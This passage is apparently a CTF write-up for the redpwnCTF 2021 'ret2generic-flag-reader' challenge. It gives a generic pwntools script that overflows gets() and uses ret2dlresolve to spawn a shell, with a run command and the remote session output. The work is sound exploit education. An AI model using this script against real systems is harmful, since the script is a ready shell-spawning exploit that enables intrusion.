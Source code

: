 ```
rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote(args.HOST, args.PORT)
else:
    p = process(binary.path)

payload  = b''
payload += padding * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

To exploit most x86_64 `gets` challenges just type:

```
./getsome.py BIN=./binary HOST=host PORT=port REMOTE=1
```

Thanks it, get your flag and move on.

*How does this script work?*

Well, first the padding is computing by crashing the binary and extracting the payload from the core to compute the distance to the return address on the stack. Then, ret2dlresolve is used to get a shell. *See the retdlresolve links above.*

Output:

```
# ./getsome.py BIN=./ret2generic-flag-reader HOST=mc.ax PORT=31077 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader': pid 312
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' stopped with exit code -11 (SIGSEGV) (pid 312)
[!] Error parsing corefile stack: Found bad environment at 0x7fffe4f21f61
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/core.312'
    Arch:      amd64-64-little
    RIP:       0x40142f
    RSP:       0x7fffe4f20028
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
[+] Opening connection to mc.ax on port 31077: Done
[*] Switching to interactive mode
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
```